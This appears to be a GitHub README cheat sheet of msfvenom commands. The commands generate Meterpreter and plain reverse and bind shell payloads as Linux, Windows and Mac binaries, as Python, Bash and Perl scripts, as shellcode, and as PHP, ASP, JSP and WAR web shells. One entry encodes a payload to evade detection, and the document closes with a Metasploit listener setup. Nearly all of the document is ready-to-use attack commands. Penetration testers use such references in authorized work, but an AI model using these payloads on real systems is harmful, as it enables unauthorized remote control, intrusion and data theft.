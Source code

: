 # MSFvenom payload creator

- [Binaries](#Binaries)
    - [Linux](##Linux)
- [Scripting](#Scripting)
- [Shellcode](#Shellcode)
- [Web](#Web)

- [Handlers](#Handlers)
- [Tools](##Tools)

# Binaries
- ## Linux
  - Meterpreter reverse shell
    - msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
  - Meterpreter bind shell
    - msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > shell.elf
  - Bind shell
    - msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > shell.elf
  - Reverse shell
    

- ## Windows
  - Meterpreter reverse shell
    - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
  - Meterpreter bind shell
  
  - Reverse shell
    - msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
  - Bind shell
  
  - Meterpreter encoded reverse shell 
    - msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
  
- ## Mac
  - msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

# Scripting 
- Python
  - msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
- Bash
  - msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
- Perl
  - msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
  
# Shellcode 
- Linux Based Shellcode
  - msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
- Windows Based Shellcode
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
- Mac Based Shellcode
  - msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
  
# Web 
- PHP
  - msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
- ASP
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
- JSP
  - msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
- WAR
  - msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

# Handlers
```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```
## Tools
- https://github.com/g0tmi1k/msfpc

